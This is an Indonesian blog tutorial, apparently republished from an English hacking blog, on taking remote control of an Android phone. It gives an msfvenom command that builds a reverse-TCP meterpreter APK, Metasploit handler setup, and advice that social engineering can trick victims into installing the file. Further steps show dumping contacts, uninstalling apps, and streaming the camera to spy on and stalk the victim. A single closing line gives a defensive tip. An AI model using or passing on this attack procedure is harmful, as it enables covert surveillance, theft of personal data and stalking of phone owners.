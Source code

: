 ```yaml
---
image: '/images/hack-android.jpg'
title: 'Hack ponsel Android dari jarak jauh'
date: '2021-10-12'
---
```


Kita akan menggunakan msfvenom untuk membuat payload dan<!--more--> menyimpannya sebagai file apk. Setelah menghasilkan payload, kita perlu menyiapkan listener ke framework Metasploit. Setelah target mengunduh dan menginstal apk jahat, penyerang dapat dengan mudah mendapatkan kembali sesi meterpreter di Metasploit. Penyerang perlu melakukan beberapa rekayasa sosial untuk menginstal apk di perangkat seluler korban.

## Tutorial langkah demi langkah

    
### Menghasilkan Payload dengan msfvenom

Pertama, jalankan Kali Linux sehingga kita dapat menghasilkan file apk sebagai aplikasi berbahaya. Kita perlu memeriksa IP publik kita yang ternyata '192.168.0.112'. Kamu juga dapat meretas perangkat Android melalui Internet dengan menggunakan IP Publik/Eksternal kamu di LHOST dan dengan port forwarding.

![kali](/images/kali.png)

Setelah mendapatkan IP host publik Anda, gunakan alat msfvenom yang akan menghasilkan payload untuk menembus perangkat Android. Ketik perintah:
<pre>
# msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.112 LPORT=4444 R > ehacking.apk
</pre>
## Dimana:
- <b>-p</b> menunjukkan jenis payload.
- <b>android/meterpreter/reverse_tcp</b> menentukan shell meterpreter terbalik akan datang dari perangkat Android target.
- <b>LHOST</b> adalah <b>IP Publik</b> Kamu.
- <b>LPORT</b> diatur sebagai listening port.
- <b>R> /var/www/html</b> akan memberikan output langsung di server Apache.
- <b>apk</b> adalah nama akhir dari hasil akhir.

Ini akan memakan waktu untuk menghasilkan file apk hampir sepuluh ribu byte.

![kali-linix](/images/kali2.png)

<br />

# Meluncurkan Serangan

![kali-linux](/images/kali3.png)

Semua tampaknya sudah siap, sekarang jalankan <b>msfconsole</b>. Gunakan <b>exploit multi/handler</b>, atur <b>payload</b> sama seperti yang dihasilkan sebelumnya, atur nilai <b>LHOST</b> dan <p>LPORT</p> sama seperti yang digunakan dalam payload dan terakhir ketik <b>exploit</b> untuk meluncurkan serangan.
![kali-linux](/images/kali4.png)


Dalam skenario kehidupan nyata, beberapa teknik rekayasa sosial dapat digunakan untuk membiarkan target mengunduh file apk berbahaya. Untuk demonstrasi kita hanya tinggal mengakses mesin penyerang untuk mengunduh file di perangkat Android.
![kali-linux](/images/kali5.jpg)

Setelah berhasil mengunduhnya, pilih aplikasi yang akan diinstal.

Sejauh ini, opsi penginstallan sering terlihat ketika kita mencoba menginstal beberapa aplikasi pihak ketiga dan biasanya pengguna tidak akan ragu untuk mengizinkan instalasi dari sumber yang tidak dikenal.
![kali-linux](/images/kali6.jpg)

Setelah pengguna menginstal aplikasi dan menjalankannya, sesi <b>meterepreter</b> akan segera dibuka di sisi penyerang.
![kali-linux](/images/kali7.png)

<br />
    {% include iklan-artikel.html %}
# Post Exploitation

Ketik <b>"background"</b> dan kemudian <b>"sessions"</b> untuk membuat daftar semua sesi dari mana Anda dapat melihat semua IP yang terhubung ke mesin.
![kali-linux](/images/kali8.png)


Kamu dapat berinteraksi dengan sesi apa pun dengan mengetik <b>sessions -i [session ID]</b>
Setelah memasuki sesi, ketik <b>"help"</b> untuk membuat daftar semua perintah yang dapat kita ajukan di sesi ini.


Kamu dapat melihat beberapa perintah sistem file yang berguna saat Anda mencoba mencari beberapa informasi atau data sensitif. Dengan menggunakan ini, Kamu dapat dengan mudah mengunduh atau mengunggah file atau informasi apa pun
![kali-linux](/images/kali9.png)

Kamu juga akan menemukan beberapa perintah jaringan termasuk portfwd dan route
![kali-linux](/images/kali10.png)

Beberapa perintah sistem yang kuat untuk mendapatkan ID pengguna, mendapatkan shell atau mendapatkan informasi sistem yang lengkap.

Ketik "app_list" dan itu akan menampilkan semua aplikasi yang diinstal pada perangkat.
![kali-linux](/images/kali11.png)

Kita juga memiliki kekuatan untuk mencopot pemasangan aplikasi apa pun dari perangkat Android.
![kali-linux](/images/kali12.png)


# Mengekstrak Kontak dari Perangkat Android

Sekarang kita ekstrak beberapa kontak dari perangkat target dengan mengetik "dump" dan tab ganda
![kali-linux](/images/kali13.png)

Ini akan menampilkan semua opsi untuk mengekstrak dari perangkat. Ketik "dump_contacts" dan enter
![kali-linux](/images/kali14.png)

Ini akan mengekstrak semua kontak dari perangkat Android dan akan menyimpannya di direktori lokal kita. Untuk melihat file ini ketik “ls” dan “cat [file_name]”
![kali-linux](/images/kali15.png)

Ini akan menunjukkan konten file kontak yang sebelumnya diunduh dari perangkat target. Informasi ini sangat sensitif dan dapat dimanfaatkan oleh peretas.

# Mengendalikan Kamera Android

Dengan mengetik perintah <b>"webcam_stream"</b> kamu bisa menyusup dan mengamati melalui kamera android si korban, dan menguntitnya.
![kali-linux](/images/kali16.webp)

# Waspada... Android Terbaru pun Masih Lancar Terkena Serangan.

Handphone xiaomi MI10 dengan OS Android 10 Masih Lancar terkena serangan, Untuk kamu yang masih sering klik website tidak jelas yang masuk ke sms atau via whatsapp sebaiknya berhati-hati dari sanalah aplikasi ini terinstall diam-diam di android kamu.
![kali-linux](/images/kali17.webp)

![kali-linux](/images/kali18.webp)


Ada masih banyak lagi perintah yang tersedia di <b>meterpreter</b>. Lebih lanjut coba jelajahi dan pelajari apa yang bisa kita lakukan dengan perangkat Android. Ini menyimpulkan bahwa kita telah berhasil menembus perangkat Android menggunakan Kali Linux dan Metasploit-Framework.


Tip sehat untuk mengamankan perangkat Android kamu adalah dengan <b>tidak menginstal aplikasi apa pun dari sumber yang tidak dikenal</b>, bahkan jika Anda benar-benar ingin menginstalnya, cobalah untuk membaca dan memeriksa kode sumbernya untuk mengetahui apakah file ini berbahaya atau tidak.



<small>Artikel ini awalnya diterbitkan di [blog ehacking.](https://www.ehacking.net/2020/04/how-to-hack-an-android-phone-using-metasploit-msfvenom-in-kali-linux.html)</small>
